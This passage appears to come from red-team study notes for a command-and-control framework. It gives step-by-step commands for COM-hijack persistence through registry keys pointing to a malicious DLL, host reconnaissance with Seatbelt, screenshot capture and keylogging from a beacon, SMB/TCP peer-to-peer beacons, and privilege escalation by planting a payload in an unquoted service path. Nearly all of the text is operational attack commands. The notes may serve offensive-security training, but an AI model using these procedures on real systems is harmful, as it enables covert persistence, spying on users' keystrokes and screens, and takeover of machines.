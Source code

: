 9. Specify that malicious dll `New-Item -Path "HKCU:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}" -Name "InprocServer32" -Value "C:\tools\malPayloads\comhijacking.dll"`
10. Next command `New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InprocServer32" -Name "ThreadingModel" -Value "Both"`
11. now when **MS Edge (internet explorer)** is loaded, you should get a **beacon**. 

### Host reconnaissance 
#### via seatbelt.exe
1. `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system`
2. `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=user`
3. `execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe InternetSettings`

#### via screenshots
1. Take a single screenshot via PrintScr method ---> `printscreen`
2. Take a single screenshot ---> `screenshot`
3. Take periodic screenshots of desktop ---> `screenwatch`
4. Go to **View** and click **Screenshots** to view the SS.

#### via keyloggers
1. `keylogger`
2. From **view** ---> **keystrokes**
3. `jobs`

### Windows Privilege Escalation
#### peer-to-peer listners
1. generate a peer-to-peer listner e.g. **smb or tcp**. 
2. next generate a payload **exe** for **smb or tcp**. 
3. execute **exe**. 
4. you'll get a open listening port e.g. **0.0.0.0:4444** if its **tcp 4444**. `netstat -anp tcp`
5. `connect localhost 4444`.
6. for smb type `ls \\.\pipe`.
7. next type `link locahost`.
8. **link** command is for **SMB** and **connect** is for **TCP**. 

#### what is windows service ? 
1. A Windows "service" is a special type of application that is usually started automatically when the computer boots. e.g. Defender, Skype, Firewall etc.
2. We can view the services by typing **services.msc** or in **CMD** typing `sc query` or in **PowerShell** its `Get-Service | fl`.

#### method -> unquoted services path
1. `beacon> run wmic service get name, pathname`.
2. `powershell Get-Acl -Path "C:\Program Files\Vuln Services" | fl`.
3. find the services that have unquoted services path vulnerablity.
4. generate a payload e.g. **service.exe [this must be a service binary not regular .exe]** and place it in the folder. use the payload with **TCP / SMB beacons** 
5. `run sc stop Vuln-Service-1`
6. `run sc start Vuln-Service-1`
7. `connect localhost <what ever the port number you used when generating the payload`
8. `connect localhost 4444`
9. Theme: **if there aren't proper quotes for white space applications, we can hijack it** 

